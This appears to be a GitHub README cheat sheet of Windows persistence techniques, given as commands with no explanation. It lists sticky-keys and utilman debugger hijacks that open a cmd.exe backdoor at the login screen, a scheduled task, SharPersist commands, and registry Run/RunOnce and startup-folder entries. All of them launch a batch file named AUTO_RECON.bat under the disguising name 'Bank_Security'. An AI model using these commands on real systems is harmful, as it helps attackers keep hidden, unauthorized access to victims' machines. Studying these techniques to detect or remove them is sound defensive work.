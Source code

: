# windows-persistence
##reg persistence in windows


Persistence:
REG ADD "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\sethc.exe" /t REG_SZ /v Debugger /d “C:\windows\system32\cmd.exe” /f
REG ADD "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\utilman.exe" /t REG_SZ /v Debugger /d “C:\windows\system32\cmd.exe” /f
schtasks /create /f /sc minute /mo 5 /tn Bank_Security /tr "C:\Windows\Temp\AUTO_RECON.bat"


https://github.com/fireeye/SharPersist
SharPersist.exe -t startupfolder -c "C:\Windows\System32\cmd.exe" -a "/c C:\Windows\Temp\AUTO_RECON.bat" -f "Bank_Security" -m add
SharPersist -t reg -c "C:\Windows\System32\cmd.exe" -a "/c C:\Windows\Temp\AUTO_RECON.bat" -k "hkcurun" -v "Bank_Security" -m add
SharPersist -t reg -c "C:\Windows\System32\cmd.exe" -a "/c C:\Windows\Temp\AUTO_RECON.bat" -k "hklmrun" -v "Bank_Security" -m add -o env
SharPersist -t reg -c "C:\Windows\System32\cmd.exe" -a "/c C:\Windows\Temp\AUTO_RECON.bat" -k "hklmrunonce" -v "Bank_Security" -m add
SharPersist -t reg -c "C:\Windows\System32\cmd.exe" -a "/c C:\Windows\Temp\AUTO_RECON.bat" -k "hklmrunonceex" -v "Bank_Security" -m add
SharPersist -t reg -c "C:\Windows\System32\cmd.exe" -a "/c C:\Windows\Temp\AUTO_RECON.bat" -k "hkcurunonce" -v "Bank_Security" -m add
SharPersist -t reg -c "C:\Windows\System32\cmd.exe" -a "/c C:\Windows\Temp\AUTO_RECON.bat" -k "logonscript" -m add

STARTUP FOLDER Basic:
copy C:\Windows\Temp\AUTO_RECON.bat "C:\Users\Bank_Security\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\AUTO_RECON.bat"

REGISTRY KEY:
CURRENT USER:
reg add "HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run" /v 1 /t REG_SZ /d "C:\Windows\Temp\AUTO_RECON.bat"
reg add "HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\RunOnce" /v 1 /t REG_SZ /d "C:\Windows\Temp\AUTO_RECON.bat"
reg add "HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\RunServices" /v 1 /t REG_SZ /d "C:\Windows\Temp\AUTO_RECON.bat"
reg add "HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\RunServicesOnce" /v 1 /t REG_SZ /d "C:\Windows\Temp\AUTO_RECON.bat"
New-ItemProperty -Path 'HKCU:\Control Panel\Desktop\' -Name 'Bank_Security' -Value 'C:\Windows\Temp\AUTO_RECON.bat'


LOCAL MACHINE (Admin privilege needed):
reg add "HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run" /v 1 /t REG_SZ /d "C:\Windows\Temp\AUTO_RECON.bat"
reg add "HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\RunOnce" /v 1 /t REG_SZ /d "C:\Windows\Temp\AUTO_RECON.bat"
reg add "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\RunOnceEx\0001" /v 1 /t REG_SZ /d "C:\Windows\Temp\AUTO_RECON.bat"
reg add "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\RunOnceEx\0001\Depend" /v 1 /t REG_SZ /d "C:\Windows\Temp\AUTO_RECON.bat"
reg add "HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\RunServices" /v 1 /t REG_SZ /d "C:\Windows\Temp\AUTO_RECON.bat"
reg add "HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\RunServicesOnce" /v 1 /t REG_SZ /d "C:\Windows\Temp\AUTO_RECON.bat"
